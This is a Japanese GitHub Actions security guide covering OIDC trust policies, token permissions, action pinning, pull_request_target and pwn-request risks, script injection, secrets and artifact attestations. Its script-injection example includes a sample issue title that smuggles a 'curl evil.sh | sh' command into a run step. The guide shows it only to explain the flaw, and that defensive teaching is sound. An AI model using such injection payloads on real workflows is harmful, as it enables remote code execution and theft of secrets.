


import { TLDR, DocsLinks, LastVerified, DecisionTree, FlashCards } from '@components';
import { Aside, Badge, Tabs, TabItem } from '@astrojs/starlight/components';

<LastVerified date="2026-10" />

<TLDR>
- **長期間有効なクラウドキーは使わない**: **OIDC**（`id-token: write`）を使い、クラウド側の信頼ポリシーを `sub` クレーム（リポジトリ＋環境またはref）で絞り込む。
- **最小権限**: すべてのワークフローで `permissions:` を指定し、Organization の既定は読み取り専用にする。`pull_request_target` は本当に必要な場合以外ブロックする。パブリックリポジトリでは **2026年11月2日から既定のブロックポリシーが強制** される。
- **実行するものを固定**: アクションはフルコミット SHA でピン留めする（Organization ポリシーで**必須化**可能）か、**ワークフロー依存関係ロックファイル** <Badge text="プレビュー" variant="caution" /> を使い、Dependabot で最新に保つ。
- **信頼できない入力を `run:` に直接展開しない**: `env:` 経由で渡す。**CodeQL がワークフローファイルをスキャン** してこれを検出する。
- **ビルドの証明**: `actions/attest@v4` で SLSA ビルド来歴を生成し、利用側は `gh attestation verify` で検証する。
</TLDR>

## ブースでよくある質問

<details>
<summary>AWS/Azure/GCP のキーをシークレットに保存しないようにするには？</summary>

**OpenID Connect** を使います。ジョブが GitHub から短命な JWT を取得し（`permissions: id-token: write`）、クラウドプロバイダーがそれを短命な認証情報と交換します。クラウド側の信頼ポリシーでは **`sub` クレーム** を照合します。たとえば `repo:octo-org/octo-repo:environment:Production` とすれば、そのリポジトリ*かつ*その環境だけがロールを引き受けられます。交換は公式のログインアクション `aws-actions/configure-aws-credentials`、`azure/login`、`google-github-actions/auth` が行います。

</details>

<details>
<summary>OIDC を中央の「ゴールデン」デプロイワークフローだけに制限できますか？</summary>

はい。REST API で **subject クレームのテンプレート** をカスタマイズし、`sub` に `job_workflow_ref` を含めます。そのうえで `...:job_workflow_ref:octo-org/platform/.github/workflows/deploy.yml@refs/heads/main` のような値だけを信頼します。こうすると、どのリポジトリから呼び出されても、クラウド認証情報を取得できるのはその再利用可能ワークフローだけになります。Organization／Enterprise の管理者は **リポジトリのカスタムプロパティ** を `repo_property_*` クレームとしてトークンに含めることもでき、ABAC 型の信頼ポリシーを組めます。例: `repo_property_data_classification` が `"public"` の場合だけロールを許可する。

</details>

<details>
<summary>2026年に OIDC の subject はどう変わりましたか？</summary>

**2026年7月15日以降に作成されたリポジトリ** は、オーナー ID とリポジトリ ID を含む **イミュータブルな `sub` 形式** を使います（例: `repo:octo-org@123456/octo-repo@456789:ref:refs/heads/main`）。これにより、削除された Organization 名やリポジトリ名を第三者が再作成してクラウドの信頼関係を引き継ぐ「名前空間の再利用」を防げます。既存のリポジトリは、Organization またはリポジトリ単位でオプトインするまで従来形式のままです。同日以降のリネームや移管でも新形式に切り替わります。この変更は **GHES には適用されません**。オプトインの前にクラウド側の信頼ポリシーを更新してください。

</details>

<details>
<summary>`@v4` でピン留めすれば十分ですか？</summary>

タグは付け替え可能なので、発行者を完全に信頼できる場合に限られます。次のいずれかを推奨します。
1. **フルレングスのコミット SHA** を使い、Organization／リポジトリのポリシー **「Require actions to be pinned to a full-length commit SHA」** を有効にする。GitHub 製アクションも対象で、再利用可能ワークフローは対象外です。
2. **ワークフロー依存関係ロックファイル** <Badge text="プレビュー" variant="caution" /> を使う。`gh actions-lock` が `.github/workflows/actions.lock` を生成し、*推移的依存関係を含む*すべてのアクションをコミットとオーナー／リポジトリ ID に固定します。GitHub によれば、この場合ワークフローファイル内での SHA ピン留めは不要で、ロック済みの依存関係は SHA ピン留めポリシーも満たします。

Dependabot（`package-ecosystem: github-actions`）を使えば、ピン留めした SHA やロックファイルを最新に保てます。

</details>

<details>
<summary>`pull_request_target` は危険ですか？</summary>

それ自体は危険ではありません。**ベースブランチ** のワークフローを、シークレットと読み書き可能なトークン付きで実行するだけです。危険なのは PR の head をチェックアウトし（`ref: github.event.pull_request.head.sha`）、それを*実行*するケース（`npm install`、`make test` など）で、**「pwn request」** と呼ばれます。GitHub はパブリックリポジトリで **`pull_request_target` をブロックする既定の Actions イベントポリシー** を追加しました。現在は *evaluate* モードで動作しており、**2026年11月2日に強制** されます。それまでにポリシーインサイトを確認してください。また `actions/checkout` は、`allow-unsafe-pr-checkout: true` を指定しない限り、このイベントでフォーク PR の head をチェックアウトしません。多くの場合は `pull_request` を使うか、処理を `pull_request` と `workflow_run` に分割してください。

</details>

<details>
<summary>フォークからの PR にシークレットは渡りますか？</summary>

渡りません。フォークからの `pull_request` 実行では `GITHUB_TOKEN` 以外の **シークレットは渡されず**、そのトークンも **読み取り専用** です。初回コントリビューターの場合は、ワークフローの実行前に承認も必要です。この分離があるため、信頼できないコードには `pull_request` が安全な既定の選択肢です。

</details>

<details>
<summary>PR からキャッシュを汚染（ポイズニング）されませんか？</summary>

既定で緩和されています。低信頼トリガー（`pull_request_target`、`issue_comment`、`workflow_run` など）は、既定ブランチのキャッシュに **読み取り専用** でしかアクセスできません。書き込めるのは `push`、`schedule`、`workflow_dispatch` などの信頼できるトリガーだけです。新しい `cache-mode` キー（`read` / `write` / `write-only` / `none`）でアクセスをさらに絞ることも、意図的に緩めることもできます（緩めるのはリスクがあります）。キャッシュ対象のパスにシークレットを置かないでください。

</details>

<details>
<summary>パブリックリポジトリでセルフホストランナーを使ってもよいですか？</summary>

ほぼ使うべきではありません。誰でも PR を開いて、使い捨てではないマシン上でコードを実行でき、マシンが永続的に侵害されるおそれがあります。プライベートリポジトリでは **エフェメラルな JIT ランナー** や ARC を使い、機密性の高いワークロードは別の **ランナーグループ** に分け、クラウドのメタデータエンドポイントや認証情報をホストに置かないでください。

</details>

## OIDC: トークン交換の流れ



### subject（`sub`）クレーム早見表

| シナリオ | `sub` の値 |
| --- | --- |
| ジョブが環境を使う | `repo:ORG/REPO:environment:Production` |
| ブランチ | `repo:ORG/REPO:ref:refs/heads/main` |
| タグ | `repo:ORG/REPO:ref:refs/tags/v1.2.0` |
| `pull_request` イベント | `repo:ORG/REPO:pull_request` |
| イミュータブル形式（2026-07-15 以降の新規リポジトリ） | `repo:ORG@OWNER_ID/REPO@REPO_ID:ref:refs/heads/main` |
| `job_workflow_ref` を含むカスタムテンプレート | `repo:ORG/REPO:environment:prod:job_workflow_ref:ORG/platform/.github/workflows/deploy.yml@refs/heads/main` |

<Aside type="caution" title="落とし穴">
ジョブが `environment` を参照すると、`sub` は `ref` 形式ではなく **environment** 形式になります。そのため `ref:refs/heads/main` だけを許可する信頼ポリシーはトークンを拒否します。値に含まれる `:` は `%3A` にエンコードされます。
</Aside>

<Tabs>
<TabItem label="AWS">

```json
"Condition": {
  "StringEquals": {
    "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
    "token.actions.githubusercontent.com:sub": "repo:octo-org/octo-repo:environment:Production"
  }
}
```

</TabItem>
<TabItem label="Azure">

Entra アプリまたはユーザー割り当てマネージド ID のフェデレーション資格情報:
- Issuer: `https://token.actions.githubusercontent.com`
- Subject: `repo:octo-org/octo-repo:environment:Production`
- Audience: `api://AzureADTokenExchange`（`azure/login` の既定値）

</TabItem>
<TabItem label="GCP">

Workload Identity 連携プロバイダーの属性条件:

```text
assertion.sub == 'repo:octo-org/octo-repo:ref:refs/heads/main'
```

</TabItem>
</Tabs>

```yaml
# ワークフロー側
permissions:
  id-token: write   # OIDC JWT の要求
  contents: read    # actions/checkout
jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: Production
    steps:
      - uses: aws-actions/configure-aws-credentials@<full-sha>
        with:
          role-to-assume: arn:aws:iam::123456789012:role/gha-deploy
          aws-region: us-east-1
```

**カスタムクレーム**: GitHub が提供する追加クレームは固定のセットです（`actor`、`environment`、`job_workflow_ref`、`repository_visibility`、`run_id` など）。**任意のクレームを独自に追加することはできません**。できるのは、(a) Organization／リポジトリの **subject テンプレート** で `sub` を構成するクレームを選ぶこと、(b) **リポジトリのカスタムプロパティ** を `repo_property_<name>` クレームとして含めること、の2つです。自社の Organization／Enterprise *外* の再利用可能ワークフローを使う場合は、呼び出し側で `id-token: write` を明示的に付与する必要があります。

## GITHUB_TOKEN の最小権限

- Organization の設定 → Actions → Workflow permissions で、既定を `contents` と `packages` の **読み取り** のみ（「制限付き」の設定）にします。リポジトリ側で Organization より緩い設定にはできません。
- ワークフローレベルで `permissions:` を `contents: read` と宣言し、必要なジョブだけ権限を上げます。記載しなかったスコープは `none` になります。
- 「Allow GitHub Actions to create and approve pull requests」は、必要な場合以外 **オフ** にします。

```yaml
permissions:
  contents: read
jobs:
  release:
    permissions:
      contents: write        # リリース作成
      id-token: write        # OIDC + 構成証明
      attestations: write
```

## サプライチェーン: ピン留め、ポリシー、Dependabot

| コントロール | 内容 | 設定場所 |
| --- | --- | --- |
| **許可するアクションのポリシー** | Enterprise／Organization のアクション、GitHub 製または Marketplace の検証済みアクション、明示的な許可リスト（`org/*`、`!org/bad@*`）だけを許可 | Enterprise／Organization／リポジトリ → Actions → General |
| **フルレングス SHA ピン留めの必須化** | アクションの `@v4` や `@main` 参照を拒否。再利用可能ワークフローは対象外 | 同じページの「Allow select actions」配下 |
| **ワークフロー依存関係ロックファイル** <Badge text="プレビュー" variant="caution" /> | `actions.lock` が推移的依存を含む全アクションを、コミットとオーナー／リポジトリ ID に固定 | `gh actions-lock` |
| **Dependabot バージョン更新** | ピン留めした SHA やタグを更新する PR を作成 | `.github/dependabot.yml`、`package-ecosystem: github-actions` |
| **イミュータブルリリース** | 発行者がリリースのタグとアセットをロックし、リリース構成証明が自動生成される | アクションのリポジトリ設定 |
| **Actions イベントポリシー** | ワークフローをトリガーできる **イベント** と **アクター** を許可リストで制御 | Settings → Actions → **Policies** |

<Aside type="note">
独立した Marketplace 機能としての「immutable actions」は **確認できませんでした**（2026-10 時点）。実際に提供されている（GA）のは **イミュータブルリリース** で、アクションの発行者が有効にするとリリースタグを付け替えられなくなります。「immutable actions」という用語を使う前に確認してください。
</Aside>

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
    groups:
      actions:
        patterns: ["*"]
```

## pwn request: `pull_request_target` と `workflow_run`



**安全なパターン**
- **既定は `pull_request`** にします。`pull_request_target` は、ラベル付け、トリアージ、コメントなど、PR のコードを一切実行しないジョブだけに使います。
- シークレットと PR の結果の両方が必要な場合は、信頼できない処理を `pull_request` で行い、特権が必要な部分を **`workflow_run`** で行います。**ダウンロードした成果物は信頼できないデータとして扱い**、パースはしても実行はしないでください。
- チェックアウトしたコードをデータとして読むだけの場合を除き、`allow-unsafe-pr-checkout: true` は設定しないでください。
- デプロイを伴うものには **必須レビュー担当者付きの環境** を使います。
- `pull_request_target` に対する新しい既定のブロックはそのまま維持し、本当に必要な場合だけ明示的な **Actions イベントポリシー** を設定します。

## スクリプトインジェクション

`run:` 内の `${{ }}` 式は、実行 **前** にシェルスクリプトへそのまま埋め込まれます。攻撃者が制御できるフィールドには `github.event.issue.title`、`github.event.pull_request.body`、`github.head_ref`、コメント本文、コミットメッセージ、作成者のメールアドレスなどがあります。

```yaml
# ❌ 脆弱: タイトルが  a"; curl evil.sh | sh; echo "  の Issue がコードとして実行される
- run: echo "Title: ${{ github.event.issue.title }}"

# ✅ 安全: 環境変数経由で渡し、クォートする
- env:
    TITLE: ${{ github.event.issue.title }}
  run: echo "Title: $TITLE"
```

値を入力として受け取るアクションを使えばさらに安全です。**CodeQL は GitHub Actions ワークフローを言語としてサポート** しており、既定のセットアップでインジェクションや危険な `pull_request_target` チェックアウトを検出します。OpenSSF Scorecard の *Dangerous-Workflow* チェックも補完になります。

## シークレット

| レベル | スコープ | 備考 |
| --- | --- | --- |
| Organization | 選択したリポジトリまたは全リポジトリ | 一元管理できる。リポジトリ単位で公開範囲を制限可能 |
| リポジトリ | リポジトリ内のすべてのワークフロー | ワークフローを push できる人なら誰でも利用可能 |
| 環境 | その環境を参照するジョブ | **必須レビュー担当者**、待機タイマー、ブランチルールでゲートされる。本番の認証情報に最適 |

- 登録済みのシークレット値は、GitHub がログで **マスク** します。派生値や動的な値には `::add-mask::` を使います。JSON などの構造化データは確実にマスクされない場合があるため、値は個別に保存してください。
- フォークからの `pull_request` 実行にはシークレットが渡されず、Dependabot がトリガーした実行では **Dependabot シークレット** が使われます。
- 再利用可能ワークフローには `secrets: inherit` か、明示的な受け渡しが必要です。
- 変更は `org.update_actions_secret` などのイベントで監査します。

## 成果物の構成証明（SLSA ビルド来歴）

```yaml
permissions:
  id-token: write
  contents: read
  attestations: write
steps:
  - run: make dist
  - uses: actions/attest@v4
    with:
      subject-path: dist/my-app
```

```bash
# 利用側
gh attestation verify dist/my-app -R octo-org/octo-repo
gh attestation verify oci://ghcr.io/octo-org/app:1.0 -R octo-org/octo-repo
```

- 構成証明には **Sigstore** を使います。パブリックリポジトリは Public Good インスタンスと透明性ログ、プライベートリポジトリは GitHub のプライベートインスタンスを使います。
- 既定で **SLSA v1.0 Build Level 2** を満たし、共有の **再利用可能ワークフロー** でビルドすれば **Build Level 3** に到達できます。
- 対象はバイナリ、コンテナイメージ、**SBOM 構成証明** です。
- 署名するのはテストビルドではなくリリースです。構成証明は、デプロイゲートや Kubernetes のアドミッションなどで誰かが **検証** して初めて意味を持ちます。

## セルフホストランナーのリスク

- **パブリック** リポジトリにセルフホストランナーを接続しないでください。
- **エフェメラル／JIT** ランナー（1ジョブで破棄）または ARC スケールセットを推奨します。
- 特定のリポジトリやワークフローに限定した **ランナーグループ** で分離します。
- ネットワークの送信先を制限し、シークレットをホストに置かないでください。

## 判定: このトリガーは信頼できない PR に対して安全か？

<DecisionTree
  title="このワークフロートリガーは信頼できない（フォーク）PR に対して安全か？"
  tree={{
    start: 'q1',
    nodes: {
      q1: {
        question: 'ワークフローはどのトリガーを使っていますか？',
        options: [
          { label: 'pull_request', next: 'pr' },
          { label: 'pull_request_target', next: 'q2' },
          { label: 'workflow_run', next: 'q4' },
          { label: 'issue_comment', next: 'q3' },
        ],
      },
      pr: {
        answer: '✅ **概ね安全です。** フォークのコードは **読み取り専用** の `GITHUB_TOKEN` で **シークレットなし** で実行され、初回コントリビューターには承認が必要です。ただし、パブリックリポジトリでのセルフホストランナーは避けてください。',
        links: [{ label: 'ワークフローをトリガーするイベント', href: 'https://docs.github.com/ja/actions/reference/workflows-and-actions/events-that-trigger-workflows#pull_request' }],
      },
      q2: {
        question: 'PR の head のコードを **チェックアウトまたはダウンロード** するステップ（checkout の `ref:` に head を指定、`git fetch`、`gh pr checkout`、成果物）はありますか？',
        options: [
          { label: 'はい', next: 'q2b' },
          { label: 'いいえ', next: 'q3' },
        ],
      },
      q2b: {
        question: 'そのコードは **実行** されますか？（ビルド、インストール、テスト、ツールが読む設定ファイルを含む）',
        options: [
          { label: 'はい／不明', next: 'pwn' },
          { label: 'いいえ、データとして読むだけ', next: 'prtdata' },
        ],
      },
      pwn: {
        answer: '🚨 **pwn request です。** 攻撃者のコードがシークレットと書き込み可能なトークン付きで実行されます。`pull_request` に切り替えるか、`pull_request` と `workflow_run` に分割してください。',
        links: [{ label: 'pull_request_target を安全に使う', href: 'https://docs.github.com/ja/actions/reference/security/securely-using-pull_request_target' }],
      },
      prtdata: {
        answer: '⚠️ **注意すれば許容範囲です。** `allow-unsafe-pr-checkout: true`、`pull_request_target` を許可する明示的なイベントポリシー（パブリックリポジトリでは 2026年11月2日から既定でブロック）、最小権限の `permissions` が必要です。また、PR のフィールドを `run:` に展開しないでください。',
      },
      q3: {
        question: '`run:` ステップで `${{ github.event.*.title/body }}` や `github.head_ref` などのイベントフィールドを展開していますか？',
        options: [
          { label: 'はい', next: 'inject' },
          { label: 'いいえ', next: 'okish' },
        ],
      },
      inject: {
        answer: '🚨 **スクリプトインジェクションのリスクがあります。** 値を `env:` に移し、`"$VAR"` として参照してください。**GitHub Actions 向け CodeQL** を有効にすれば検出できます。',
        links: [{ label: 'セキュリティで保護された使用のリファレンス', href: 'https://docs.github.com/ja/actions/reference/security/secure-use' }],
      },
      okish: {
        answer: '✅ **おそらく問題ありません。** 権限が最小限で、シークレットが必要なジョブだけに限定され、キャッシュが読み取り専用（低信頼トリガーの既定）であることを確認してください。',
      },
      q4: {
        question: 'トリガー元の実行から成果物をダウンロードし、それを **実行** したり `eval` したり、クォートせずにシェルコマンドで使ったりしていますか？',
        options: [
          { label: 'はい', next: 'pwn' },
          { label: 'いいえ、データとしてパースするだけ', next: 'q3' },
        ],
      },
    },
  }}
/>

## セキュリティの落とし穴

<FlashCards
  title="セキュリティの落とし穴"
  cards={[
    { q: '`GITHUB_TOKEN` で push したコミットは別のワークフローをトリガーしますか？', a: 'いいえ（再帰防止のため）。例外は `workflow_dispatch` と `repository_dispatch` です。連鎖させたい場合は **GitHub App トークン** を使います。' },
    { q: '`environment:` を使うジョブだけ OIDC ロールが失敗するのはなぜ？', a: '環境を使うと `sub` が `repo:ORG/REPO:environment:NAME` になるため、`ref:refs/heads/main` 向けに書いた信頼ポリシーと一致しなくなります。' },
    { q: '`@v4` はイミュータブルな参照ですか？', a: 'いいえ。タグは付け替え可能です。フル SHA（Organization ポリシーで必須化可能）か、ワークフロー依存関係 **ロックファイル**（プレビュー）を使ってください。' },
    { q: 'SHA ピン留めポリシーは再利用可能ワークフローにも適用されますか？', a: 'いいえ。再利用可能ワークフローは引き続きタグで参照できます。ポリシーの対象は GitHub 製を含むアクションです。' },
    { q: 'Issue のタイトルをスクリプトで安全に使うには？', a: '`env:` にマッピング（`TITLE: ${{ github.event.issue.title }}`）し、シェルでは `"$TITLE"` として使います。' },
    { q: '`pull_request_target` の実行は既定ブランチのキャッシュに書き込めますか？', a: '既定ではできません。低信頼トリガーは **読み取り専用** です。ジョブが `cache-mode: write` でオプトインした場合は書き込めますが、リスクがあります。' },
    { q: '2026年11月2日に何が起きますか？', a: 'パブリックリポジトリで **`pull_request_target` をブロックする** 既定の Actions イベントポリシーが、既定のままのリポジトリで evaluate から **強制** に切り替わります。' },
    { q: '成果物の構成証明で得られる SLSA レベルは？', a: '既定で **Build L2**、共有の再利用可能ワークフローでビルドすれば **Build L3** です。' },
  ]}
/>

<DocsLinks links={[
  { label: 'セキュリティで保護された使用のリファレンス', href: 'https://docs.github.com/ja/actions/reference/security/secure-use', description: 'スクリプトインジェクション、サードパーティアクション、セルフホストランナーの強化' },
  { label: 'pull_request_target を安全に使う', href: 'https://docs.github.com/ja/actions/reference/security/securely-using-pull_request_target' },
  { label: 'Actions ポリシーについて', href: 'https://docs.github.com/ja/actions/concepts/about-actions-policies', description: 'ワークフロー実行の保護（イベントルール・アクタールール）' },
  { label: 'OpenID Connect リファレンス', href: 'https://docs.github.com/ja/actions/reference/security/oidc', description: 'クレーム、subject テンプレート、カスタムプロパティ、イミュータブル subject' },
  { label: 'ワークフロー依存関係ロックファイル', href: 'https://docs.github.com/ja/actions/concepts/security/workflow-dependency-lockfiles' },
  { label: 'リポジトリの GitHub Actions 設定を管理する', href: 'https://docs.github.com/ja/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository', description: '許可するアクション、SHA ピン留め、GITHUB_TOKEN の既定値' },
  { label: '成果物の構成証明', href: 'https://docs.github.com/ja/actions/concepts/security/artifact-attestations' },
  { label: '依存関係キャッシュのリファレンス（cache-mode）', href: 'https://docs.github.com/ja/actions/reference/workflows-and-actions/dependency-caching' },
  { label: 'イミュータブルリリース', href: 'https://docs.github.com/ja/code-security/concepts/supply-chain-security/immutable-releases' },
]} />
